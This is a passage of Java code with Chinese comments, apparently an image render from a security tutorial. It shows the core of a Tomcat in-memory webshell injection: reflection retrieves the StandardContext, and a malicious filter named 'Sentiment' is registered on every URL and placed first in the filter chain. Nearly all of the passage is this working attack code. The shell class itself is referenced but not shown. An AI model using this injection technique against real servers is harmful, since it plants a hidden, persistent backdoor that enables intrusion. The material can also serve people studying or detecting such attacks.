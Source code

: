 ```plain
                //开始注入内存马
                ServletContext servletContext = servletRequest.getServletContext();
                Field context = servletContext.getClass().getDeclaredField("context");
                context.setAccessible(true);
                // ApplicationContext 为 ServletContext 的实现类
                ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
                Field context1 = applicationContext.getClass().getDeclaredField("context");
                context1.setAccessible(true);
                // 这样我们就获取到了 context
                StandardContext standardContext = (StandardContext) context1.get(applicationContext);

                //1、创建恶意filter类
                Filter filter = new FilterShell();

                //2、创建一个FilterDef 然后设置filterDef的名字，和类名，以及类
                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName("Sentiment");
                filterDef.setFilterClass(filter.getClass().getName());

                // 调用 addFilterDef 方法将 filterDef 添加到 filterDefs中
                standardContext.addFilterDef(filterDef);
                //3、将FilterDefs 添加到FilterConfig
                Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
                Configs.setAccessible(true);
                Map filterConfigs = (Map) Configs.get(standardContext);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
                filterConfigs.put("Sentiment",filterConfig);

                //4、创建一个filterMap
                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName("Sentiment");
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                //将自定义的filter放到最前边执行
                standardContext.addFilterMapBefore(filterMap);

                servletResponse.getWriter().write("Inject Success !");
            }

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InstantiationException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```